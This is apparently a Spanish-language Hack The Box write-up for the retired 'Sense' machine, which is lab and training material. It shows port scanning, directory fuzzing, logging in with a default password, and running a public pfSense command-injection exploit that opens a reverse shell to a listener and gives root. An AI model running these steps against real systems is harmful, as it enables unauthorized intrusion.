 ```yaml
---
layout: post
title:  "OSCP Path ~ Sense de Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada SENSE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Fuzzing, pfSense, Maquinas Retiradas, Writeup, Hacking
---
```


# Sense ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.60       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```
Le tiramos un Whatweb
```bash
http://10.10.10.60 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[lighttpd/1.4.35], IP[10.10.10.60], RedirectLocation[https://10.10.10.60/], lighttpd[1.4.35]                                                                                                                                                            
ERROR Opening: https://10.10.10.60/ - SSL_connect returned=1 errno=0 state=error: dh key too small
```
Inspeccionamos el certificado SSL con openssl
```bash
# openssl s_client -connect 10.10.10.60:443
```
Nos lista el certificado SSL y el protocolo de comunicacion utilizado TLSv1.2

Nos metemos por el http y vemos que estamos ante un pfsense 

Wappalyzer nos dice que esta escrito en “php”

Procedemos a Fuzzear con la herramienta wfuzz:
Escaneo 1:
```bash
fuzzing sin extensiones
000003584:   200        228 L    851 W      7492 Ch     "tree"                                                                                
000008044:   200        173 L    404 W      6113 Ch     "installer"
```
Escaneo 2
```bash
Fuzzing con extensiones php, txt 
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                               
=====================================================================

000000095:   200        173 L    425 W      6689 Ch     "help - php"                                                                          
000000003:   200        173 L    425 W      6690 Ch     "index - php"                                                                         
000000315:   200        173 L    425 W      6690 Ch     "stats - php"                                                                         
000001201:   200        173 L    425 W      6689 Ch     "edit - php"                                                                          
000001331:   200        173 L    425 W      6692 Ch     "license - php"                                                                       
000001501:   200        173 L    425 W      6691 Ch     "status - php"                                                                        
000001385:   200        173 L    425 W      6691 Ch     "system - php"                                                                        
000002510:   200        9 L      40 W       271 Ch      "changelog - txt"                                                                     
000002911:   200        173 L    425 W      6689 Ch     "exec - php"                                                                          
000005455:   200        173 L    425 W      6690 Ch     "graph - php"                                                                         
000008957:   200        173 L    425 W      6691 Ch     "wizard - php"                                                                        
000012509:   200        173 L    425 W      6688 Ch     "pkg - php"                                                                           
000034071:   200        16 L     26 W       384 Ch      "xmlrpc - php"                                                                        
000069533:   200        173 L    425 W      6691 Ch     "reboot - php"                                                                        
000093543:   200        173 L    425 W      6695 Ch     "interfaces - php"
"
changelog.txt - Nos Da Info interesante sobre los cambios que han habido y que falta una VULN por parchear
system-users.txt		Obtenemos credenciales de usuario y posible contraseña para el login  "
```
Hechamos un ojo a la ruta encontrada
```bash
https://10.10.10.60/system-users.txt
####Support ticket###
Please create the following user

username: Rohit
password: company defaults
```
Probamos a hacer uso de distintas posisbles password para el usuario `rohit` y damos con la password correcta `pfsense`.
Accedemos al Panel de administrador y buscamos por la `version` de `pfsense` que es `2.1.3`

Procedemos a usar la herramienta `Searchsploit` para buscar por `pfsense 2.1.3`
```bash
# searchsploit -m php/webapps/43560.py 
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/OSCP/Sense/exploits/43560.py
```
Vemos que es un script en python que nos devuelve una `r-shell` si nos ponemos a la escucha con una session con `nc -vlnp $Port`

Probamos el exploit para ver si resulta funcional:
```bash
# python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 443 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
Nos ponemos a la escucha con la session de Netcat
```bash
# nc -nlvp 1233                                                                                                                                  1 ⨯
listening on [any] 1233 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.60] 8378
sh: can't access tty; job control turned off
# whoami
root
```
Nos desplazamos para sacar la flag del usuario root
```bash
# cd root
# cat * 
d08c32a5d4f8c8b10e76exxxxxxxxxxxxx
```


